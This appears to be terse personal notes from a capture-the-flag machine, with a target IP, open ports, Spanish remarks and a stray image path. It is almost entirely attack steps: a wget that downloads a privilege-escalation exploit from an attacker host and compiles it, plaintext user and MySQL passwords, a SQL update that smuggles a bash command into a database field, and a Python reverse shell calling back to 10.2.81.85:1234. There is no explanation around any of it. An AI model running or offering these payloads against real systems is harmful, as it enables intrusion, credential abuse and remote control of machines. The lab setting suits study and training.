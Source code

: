 10.10.216.126
22
80
	/app 
	password
	
	
	
find / -type f -name .placeholder 2>/dev/null

wget http://10.2.81.85:1337/exploita.c

gcc exploita.c -o exploit -lmnl -lnftnl -no-pie -lpthread

lucien:HeyLucien#@1999!

death:!mementoMORI666!

mysql -u lucien -plucien42DBPASSWORD
0>&1

UPDATE dreams
SET dream = ';/bin/bash -i' 
WHERE dreamer = 'Alice';

psy64 > morpheus ejecuta comando cada ciertos minutos
revshell para shutil
nc una vez modificado a la espera de que morfeo ejecute

BASH HYSTORY LUCIEN

lucien:HeyLucien#@1999!

death:!mementoMORI666!

import socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.2.81.85",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

import pty
pty.spawn("bash")